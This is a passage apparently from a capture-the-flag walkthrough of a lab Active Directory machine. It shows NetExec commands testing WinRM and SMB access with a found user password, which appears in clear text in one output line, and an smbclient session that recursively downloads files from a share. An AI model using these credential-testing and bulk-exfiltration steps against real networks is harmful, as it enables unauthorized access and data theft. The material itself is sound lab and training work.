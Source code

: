 Check for WinRM access:

```bash
$ nxc winrm 10.10.10.182 -u 'r.thompson' -p 'r<REDACTED>a'
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\r.thompson:r<REDACTED>a
```

Check SMB share access:

```bash
$ nxc smb 10.10.10.182 -u 'r.thompson' -p 'r<REDACTED>a' --shares
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
```

Enumerate readable files:

```bash
$ smbclient -U r.thompson //10.10.10.182/Data
Password for [WORKGROUP\r.thompson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 27 03:27:34 2020
  ..                                  D        0  Mon Jan 27 03:27:34 2020
  Contractors                         D        0  Mon Jan 13 01:45:11 2020
  Finance                             D        0  Mon Jan 13 01:45:06 2020
  IT                                  D        0  Tue Jan 28 18:04:51 2020
  Production                          D        0  Mon Jan 13 01:45:18 2020
  Temps                               D        0  Mon Jan 13 01:45:15 2020

                6553343 blocks of size 4096. 1624545 blocks available
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \Contractors\*
NT_STATUS_ACCESS_DENIED listing \Finance\*
NT_STATUS_ACCESS_DENIED listing \Production\*
NT_STATUS_ACCESS_DENIED listing \Temps\*
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as IT/Email Archives/Meeting_Notes_June_2018.html (23.0 KiloBytes/sec) (average 23.0 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log (11.8 KiloBytes/sec) (average 17.4 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as IT/Logs/DCs/dcdiag.log (53.0 KiloBytes/sec) (average 29.4 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as IT/Temp/s.smith/VNC Install.reg (25.7 KiloBytes/sec) (average 28.5 KiloBytes/sec)
smb: \> exit

# list directory structure
$ tree
.
```